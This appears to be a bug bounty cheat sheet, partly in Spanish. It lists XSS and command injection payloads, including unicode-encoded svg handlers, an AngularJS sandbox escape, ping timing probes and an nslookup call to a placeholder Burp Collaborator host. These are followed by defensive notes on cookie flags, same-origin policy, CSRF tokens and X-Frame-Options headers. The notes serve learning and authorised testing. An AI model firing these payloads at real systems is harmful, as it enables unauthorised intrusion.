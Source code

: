# BugBounty_tips

#Xss
%u003Csvg onload=alert(1)> \
%u3008svg onload=alert(2)> \
%uFF1Csvg onload=alert(3)> \
=<img%20src=x%20onerror=alert('Welcome,%20v
q=<g><script>alert%28document.domain%29<%2Fscript>   
<img src=x onerror=console.log("XSS")>   
‘);</script><script>alert(1)</script>  
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}

#Command Injection
url/cgi-bin/parameter=payload
payload 1 [PING]
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1 
payload 2 [Nslookup]
|nslookup -q=cname http://YOUR.burpcollaborator.net.&
  

  
cookie atributes
Las cookies son utilizadas a menudo en aplicaciones web para identificar a un usuario y su sesión
Creando
Set-Cookie: <nombre-cookie>=<valor-cookie>
Session
Expires
Securizar
Cookies Secure y HttpOnly
Previene la lectura y modificacion
Para prevenir ataques cross-site scripting (XSS (en-US)), las cookies HttpOnly son inaccesibles desde la API de Javascript Document.cookie; Solamente se envían al servidor. Por ejemplo, las cookies que persisten sesiones del lado del servidor no necesitan estar disponibles para JavaScript, por lo que debería establecerse el flag HttpOnly.

Alcance
Las directivas Domain y Path definen el alcance de la cookie: a qué URLs deberían enviarse las cookies.
Domain : especifica los hosts permitidos
Path   : espeficia directorios
Samesite
SameSite=Strict
Si una cookie same-site tiene este atributo, el navegador sólo enviará cookies si la solicitud se originó en el sitio web que estableció la cookie.y no hara en origenes distintos
Lax
Si el atributo se establece en Lax, las cookies same-site se retienen en (sub)peticiones cross-site, tales como llamadas para cargar imágenes o frames
Acceso desde JavaScript usando Document.cookie
También se pueden crear nuevas cookies via JavaScript usando la propiedad Document.cookie, y si el flag HttpOnly no está establecido

Tracking no legal  
HOW WORKS HTTPONLY
https://www.youtube.com/watch?v=d8liHExs5tc
https://www.youtube.com/watch?v=ZSUGfIy1ds8
https://www.youtube.com/watch?v=brNL_bvUCck


 
SameOriginPolicy Sop
https://developer.mozilla.org/es/docs/Web/Security/Same-origin_policy
Origen se refiere a si dos pagunas tienen el protocolo y el mismo puerto .
La política same-origin (mismo-origen) restringe cómo un documento o script cargado desde un origen puede interactuar con un recurso de otro origen. Es un mecanismo de seguridad crítico para aislar documentos potencialmente malicioso
Es impedir que dominios que no compartan el mismo host, puerto y protocolo sean capaces de acceder a la información de otro dominio

CSRF
Los endpoints GET no deben tener acciones de modificación, y si esto se necesita se debería requerir una petición POST. Además los endpoints POST no debería aceptar la intercambiabilidad de aceptar peticiones GET con parametros en query string
Un token CSRF debería ser incluido en cada elemento <form> mediante un input oculto. Este token debe ser único para cada usuario y almacenado (por ejemplo, en una cookie). De esta forma el servidor puede mirar si el valor requerido es enviado, y en cierto modo lo idea sería descartar la petición si el valor no concuerda con lo esperado.
Este método de protección recae en la imposibilidad de que un atacante pueda predecir este token autogenerado en cada inicio de sesión. Cabe aclarar que este token debería ser regenerado en cada inicio de sesión.
Al igual que con {{Glosario ("XSS")}}, el filtrado de entrada es importante.
Debería de existir siempre un requerimiento de confirmación para cualquier acción delicada,.
Las cookies empleadas en acciones delicadas deberían de tener una vida útil breve.

PREVENIR
https://www.youtube.com/watch?v=KvE3nifqELk
QUE LAS PETICIONES VENGAN DE SITIOS CONOCIDOS - ip - dominios 
POST - PETCIONES ASINCRONAS CON AJAX
HTP_REFERER
mejor que lo anterior
HEAD
METER EL TOKEN EN HEAD EN UNA COOKIE
  
X-Frame-Options
La página sólo puede ser mostrada en un marco del mismo origen que dicha página.
X-Frame-Options: DENY
La página no puede ser mostrada en un marco, independiente del sitio que esté intentándolo.
X-Frame-Options: SAMEORIGIN
La página sólo puede ser mostrada en un marco del mismo origen que dicha página.
X-Frame-Options: ALLOW-FROM https://example.com/
La página sólo puede ser mostrada en un marco del origen especificado.Tenga en cuenta que en Firefox esto todavía sufre del mismo problema que SAMEORIGIN
  
SOLUCIÓN
Apache
Header always append X-Frame-Options SAMEORIGIN
Header set X-Frame-Options DENY
Header set X-Frame-Options "ALLOW-FROM https://example.com/"
Nginx
add_header X-Frame-Options SAMEORIGIN;
IIS
<system.webServer>
   <httpProtocol>
    <customHeaders>
      <add name="X-Frame-Options" value="SAMEORIGIN" />
    </customHeaders>
  </httpProtocol>
</system.webServer>
  

  
  
  
  
 
  



